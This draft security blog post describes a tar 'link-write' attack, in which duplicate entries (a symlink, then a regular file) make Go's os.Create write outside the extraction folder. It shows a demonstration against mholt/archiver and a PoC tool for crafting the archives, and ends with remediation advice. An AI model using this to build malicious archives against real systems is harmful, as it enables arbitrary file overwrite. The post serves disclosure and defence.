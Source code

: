 ```yaml
---
title: "Sweet combination: Link-write Attack during extraction"
draft: true
date: 2024-08-09T08:20:36+02:00
tags:
- attack
- tar
---
```


I've recently been working on some exciting development projects, including a deep dive into archive extraction. During this work, I discovered some fascinating behaviours that I'm thrilled to share with you in the following sections.

<!--more--> 

_**TL;DR:**_ Tar archives can contain multiple entries with the same filename. It is important to note that Golang follows symlinks while calling [`os.Create(name string) (*File, error)`](https://pkg.go.dev/os#Create). This combination can lead to arbitrary writes during file extraction.

## Observations

### Repeating name in tar files

First of all, an archive can contain multiple entries with the same name. Lets take for example the tar file `alice.tar` (created with [ref](https://go.dev/play/p/7TjHUzQLuL8)). The file contains two entries:

```shell
$ tar ztvf alice.tar
lrw-------  0 0      0           0  1 Jan  1970 rabbit_hole -> /tmp/wonderland
-rw-r--r--  0 0      0          39  1 Jan  1970 rabbit_hole

```

The first entry is a symlink, the second is a legit text file. If this archive is extracted with the `tar` cli, the symlink  is extracted and afterwards replaced by the text file:

```shell
$ tar xvf alice.tar
x rabbit_hole
x rabbit_hole

$ ls -l
total 24
-rw-r--r--  1 jan  staff   2,5K  9 Aug 17:33 alice.tar
-rw-r--r--  1 jan  staff    39B  1 Jan  1970 rabbit_hole

$ file rabbit_hole
rabbit_hole: ASCII text, with no line terminators
```

Let's keep that behavior for now in mind and let us step to the next interesting observation.

### File creation in Golang

Files can be created in Golang with [os.Create(name string) (*File, error)](https://pkg.go.dev/os#Create). Data can then be written to the file and it can be closed. [The documentation says](https://pkg.go.dev/os#Create:~:text=Create%20creates%20or%20truncates%20the%20named%20file.%20If%20the%20file%20already%20exists%2C%20it%20is%20truncated.%20If%20the%20file%20does%20not%20exist%2C%20it%20is%20created%20with%20mode%200666%20(before%20umask).):

> Create creates or truncates the named file. If the file already exists, it is truncated. If the file does not exist, it is created with mode 0666 (before umask).

The interesting thing about this function is that the given `name` can be an existing file (or even better: a symlink!). My first expectation was that the symlink would be replaced/truncated and replaced with the contents of the file - similar to `tar`cli behaviour.

I implemented such behaviour in [Golang](https://go.dev/play/p/kunYCVn-_Zp) and in [Python](https://www.online-python.com/WAhSH75ia2) and it turned out that if we pass a symlink to the create function, the symlink is traversed and the content is written to the target!

Funny, right? 😃

## Verification of assumption

To verify my assumption, I picked a wide-spread existing OSS extraction implementation for archives in Golang – [mholt/archiver@v3](https://github.com/mholt/archiver/tree/v3-deprecated) – which is straightforward to use ([full code example](https://go.dev/play/p/NPqSWEOWphV)):  

```golang
// parse command line arguments
input := os.Args[1]
output := os.Args[2]

// unarchive the file
archiver.Unarchive(input, output)

// print the result
fmt.Printf("Unarchived %s to %s\n", input, output)
```

If we use this simple code snipped to extract our previous crafted archive, we get following result:

```
$ go run ./main.go alice.tar .
Unarchived alice.tar to .

$ ls -l
total 24
[...]
-rw-r--r--  1 jan  staff   299B  9 Aug 18:31 main.go
lrwxr-xr-x  1 jan  staff    15B  9 Aug 18:38 rabbit_hole@ -> /tmp/wonderland

$ cat /tmp/wonderland
Hello Alice, welcome to the wonderland!

```

So, we are capable of archiving an arbitrary write to the filesystem, by traversing the link during the file creation process.



## PoC tool: golinkwrite

If you want to create a potential malicious archive, feel free to use [NodyHub/golinkwrite](https://github.com/NodyHub/golinkwrite) to craft your own tar archives with double entries: 

```shell
$ echo 'Hello Alice :wave:!' | tee rabbit_hole.txt
Hello Alice :wave:!

$ golinkwrite -v rabbit_hole.txt /tmp/hi.txt alice.tar
time=2024-08-09T19:11:35.266+02:00 level=DEBUG msg="command line  parameters" cli="{Input:rabbit_hole.txt Target:/tmp/hi.txt Output:alice.tar Verbose:true}"
time=2024-08-09T19:11:35.266+02:00 level=DEBUG msg="input permissions" perm=-rw-r--r--
time=2024-08-09T19:11:35.266+02:00 level=DEBUG msg="input size" size=20
time=2024-08-09T19:11:35.266+02:00 level=INFO msg="tar file created" output=alice.tar

$ tar ztvf alice.tar
lrw-r--r--  0 0      0           0  1 Jan  1970 rabbit_hole.txt -> /tmp/hi.txt
-rw-r--r--  0 0      0          20  1 Jan  1970 rabbit_hole.txt
```

## Remediation

The root-cause of this behaviour is that symlinks are traversed during extraction. You can either implement your own checks or use Google's implementation: [google/safearchive](https://github.com/google/safearchive) to ensure that symlinks from an archive are not traversed during extraction. More details can be found in the blog post [The Family of Safe Golang Libraries is Growing!](https://bughunters.google.com/blog/4925068200771584/the-family-of-safe-golang-libraries-is-growing).